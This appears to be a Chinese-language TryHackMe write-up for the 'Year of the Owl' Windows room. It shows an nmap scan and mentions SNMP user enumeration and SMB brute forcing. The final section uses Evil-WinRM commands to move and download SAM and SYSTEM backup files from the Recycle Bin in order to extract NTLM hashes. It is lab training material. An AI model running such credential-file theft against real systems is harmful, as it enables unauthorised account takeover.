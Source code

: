 ```yaml
---
sidebar_position: 176
tags: [Medium, Linux, 信息泄露, PTH]
title: "Year of the Owl"
description: "Year of the Owl"
sidebar_label: "Year of the Owl"
slug: /tryhackme/176
---
```


# Year of the Owl

## 端口扫描

```bash
root@ip-10-10-209-67:~/yearoftheowl# nmap -sTCV -p- --min-rate 1000 10.10.142.14

Starting Nmap 7.60 ( https://nmap.org ) at 2023-11-05 06:36 GMT
Nmap scan report for ip-10-10-142-14.eu-west-1.compute.internal (10.10.142.14)
Host is up (0.0079s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
|_http-title: Year of the Owl
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
|_http-title: Year of the Owl
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host 'ip-10-10-209-67.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=year-of-the-owl
| Not valid before: 2023-11-04T05:26:38
|_Not valid after:  2024-05-05T05:26:38
|_ssl-date: 2023-11-05T06:39:15+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.60%I=7%D=11/5%Time=65473886%P=x86_64-pc-linux-gnu%r(NU
SF:LL,69,"e\0\0\x01\xffj\x04Host\x20'ip-10-10-209-67\.eu-west-1\.compute\.
SF:internal'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20Mar
SF:iaDB\x20server");
MAC Address: 02:96:F8:84:EB:33 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-11-05 06:39:16
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 193.78 seconds
```

## snmp

![image-20240709204300380](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204301.png)

使用 snmp-check 工具可以获取到其中的用户名称

 ## SMB

进行暴力破解

![image-20240709204313760](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204314.png)

## 后渗透

### Jareth

![image-20240709204331468](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204332.png)

### Jareth —> administrator

上传工具进行扫描之后 发现在回收站存在 sam.bak 文件可以从中获取 NTLM Hash

```bash
User Name              SID
====================== =============================================
year-of-the-owl\jareth S-1-5-21-1987495829-1628902820-919763334-1001

*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> ls

    Directory: C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/18/2020   7:28 PM          49152 sam.bak
-a----        9/18/2020   7:28 PM       17457152 system.bak
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> move .\system.bak c:\users\jareth\documents\system.bak
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> move .\sam.bak c:\users\jareth\documents\sam.bak 
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> download C:\users\jareth\documents\system.bak
*Evil-WinRM* PS C:\$Recycle.bin\S-1-5-21-1987495829-1628902820-919763334-1001> download C:\users\jareth\documents\sam.bak
```

![image-20240709204341776](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-204342.png)